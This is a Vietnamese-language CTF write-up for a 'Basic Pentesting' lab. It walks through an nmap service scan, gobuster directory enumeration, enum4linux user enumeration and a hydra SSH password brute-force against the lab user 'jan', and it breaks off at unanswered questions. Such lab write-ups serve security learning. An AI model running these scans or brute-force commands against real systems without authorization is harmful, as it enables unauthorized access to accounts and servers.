


# Basic Pentesting
## Deploy the machine and connect to our network:

    Done

## Find the services exposed by the machine:

    Done

## What is the name of the hidden directory on the web server: 

Dùng **nmap** để quét các cổng và dịch vụ đang chạy trên web server.

```
$ nmap -sC -sV -oN nmap/scan_result <IP>
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  �GM�U      Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13?
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http-proxy
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-10-15T17:33:47
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2023-10-15T13:33:47-04:00
|_clock-skew: mean: 1h20m02s, deviation: 2h18m34s, median: 2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 278.21 seconds
```

Ta thấy được có 4 cổng đang mở và có 1 cổng khá đặc biệt đó là 8009, cái này có một cve liên quan đến dịch vụ ajp(note lại thôi=))).

Để xem các thư mục ẩn thì cách đơn giản nhất là vét cạn nó, **gobuster** thôi. (gobuster sẽ gửi các request đến trang web, sau đó dựa vào response của nó để xem có thư mục đó tồn tại hay không).

```
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u 10.10.106.148             
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.106.148
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 297]
/.hta                 (Status: 403) [Size: 292]
/.htpasswd            (Status: 403) [Size: 297]
/development          (Status: 301) [Size: 320] [--> http://10.10.106.148/development/]
/index.html           (Status: 200) [Size: 158]
/server-status        (Status: 403) [Size: 301]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

Với status 403 là status không thể truy cập, tuy nhiên có 2 cái **/development** và **/index.html** có thể vào đc.



Vậy thư mục ẩn ở đây là **/development**

## User brute-forcing to find the username & password: 
    Done
## What is the username?
Answer format: ***

Với username ta có thể dùng 1 công cụ khá mạnh(vét hơi lâu) là enum4linux để brute-forcing username trong wordlists

```
enum4linux -a 10.10.14.230
```

Với 1 chút kiên nhẫn ( khoảng 10p :) ) thì ta sẽ thu được các username sau:


Thử 1 trong 2 và được user là **jan**
## What is the password?
Answer format: *******

Tiếp tục dùng cả thanh xuân để brute-forcing, lần này là password, dùng một tool khác tên là **hydra**
```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.14.230
```

## What service do you use to access the server(answer in abbreviation in all caps)?
Answer format: ***
## Enumerate the machine to find any vectors for privilege escalation
No answer needed
## What is the name of the other user you found(all lower case)?
Answer format: ***
## If you have found another user, what can you do with this information?
No answer needed
## What is the final password you obtain?